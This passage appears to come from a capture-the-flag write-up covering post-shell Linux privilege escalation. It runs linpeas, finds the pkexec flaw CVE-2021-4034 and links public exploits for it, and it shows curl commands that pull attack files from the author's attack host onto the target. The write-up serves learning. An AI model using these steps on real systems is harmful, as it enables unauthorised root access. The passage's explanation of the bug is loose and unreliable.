 ```html
}
```
And we get shell!

# Privesc
So first i go to /dev/shm to get a clean slate that I can work from and not disturb anyone else. There i transfer [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) through the http server built into python. `python -m http.server`. And get my shell to get this with curl `curl http://10.10.14.231:8000/linpeas.sh -o linpeas.sh`.
And run the script
```bash
╔══════════╣ Operative system                                                                                                                                                         
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits
Linux version 5.4.0-89-generic (buildd@lgw01-amd64-044) (gcc version 9.3.0 (Ubuntu 9.3.0-17ubuntu1~20.04)) #100-Ubuntu SMP Fri Sep 24 14:50:10 UTC 2021
Distributor ID: Ubuntu
Description:    Ubuntu 20.04.3 LTS
Release:        20.04      
Codename:       focal     
                         
╔══════════╣ Sudo version  
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version
Sudo version 1.8.31
Vulnerable to CVE-2021-4034
./linpeas.sh: 1188: [[: not found
./linpeas.sh: 1188: rpm: not found
./linpeas.sh: 1188: 0: not found                                                                                                                                                                                  
╔══════════╣ PATH          
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-path-abuses
/usr/bin:/bin            
New path exported: /usr/bin:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/sbin 

```
So linpeas reports that the host is vulnerable to [cve 2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034), first lets check it out to see what it is. It's a vulneralbility that has a local privilege escalation fault in the polkit pkexec utility. Therefore we can elevate ourselfs to root through the pkexec utility. It has to do with a setuid bit that is wrongly set.
Here are two expliots that could work, i chose the latter as it seems like less work.
https://github.com/berdav/CVE-2021-4034
https://www.exploit-db.com/exploits/50689

I prepare the files for transfer and transfer them with the python http server. Once the files are transferred, you simply have to run make and it will build the files for you and create a exploit program that will run the exploit. If you're wondering what make does its explained in further detail [here](https://www.tutorialspoint.com/unix_commands/make.htm). But simply put, it's a program that compiles bigger programs. It takes a makefile and compiles the different elements as they should be done. So therefore it's easy to write something in C and compile it with ease.
# Root
```bash
### On the host we are attacking
$ curl http://10.10.14.231:8000/Makefile -o Makefile
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   172  100   172    0     0    873      0 --:--:-- --:--:-- --:--:--   868
$ curl http://10.10.14.231:8000/evil-so-.c -o evil-so.c
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   172  100   172    0     0    873      0 --:--:-- --:--:-- --:--:--   868
```